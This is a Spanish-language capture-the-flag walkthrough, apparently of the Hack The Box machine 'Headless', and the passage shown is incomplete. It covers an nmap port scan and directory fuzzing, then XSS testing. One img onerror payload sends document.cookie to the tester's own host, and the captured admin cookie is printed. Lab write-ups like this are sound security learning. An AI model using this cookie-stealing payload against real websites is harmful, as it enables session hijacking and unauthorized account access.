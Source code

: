 #HTB - HEADLESS

## Enumeración de puertos/servicios

``` bash 
sudo nmap -sCVT 10.10.11.8
```

![[Pasted image 20240404160810.png]]

Podemos ver 2 puertos abiertos:
- 22 (SSH)
- 5000 (posiblemente una web)

Vamos a probar si funciona la ip con el puerto 5000.

![[Pasted image 20240404161047.png]]


Efectivamente funciona la web, una vez tenemos acceso a ella lo primero que vamos a hacer es realizar un fuzzing en busca de directorios:

![[Pasted image 20240404162710.png]]
## Detección de vulnerabilidades


![[Pasted image 20240404163854.png]]

![[Pasted image 20240404163806.png]]


``` javascript
<script>alert(‘XSS’)</script>
```


![[Pasted image 20240404163454.png]]

Después de probar con algunos xss decido probar por otro lado a ver si funciona.

![[Pasted image 20240404164540.png]]

![[Pasted image 20240404183654.png]]

![[Pasted image 20240404183642.png]]

``` javascript
<img src=x onerror=fetch('http://10.10.14.168/?cpplie='+document.cookie);>
```

![[Pasted image 20240404184159.png]]


![[Pasted image 20240404184144.png]]

cookie: "ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"

![[Pasted image 20240404184300.png]]
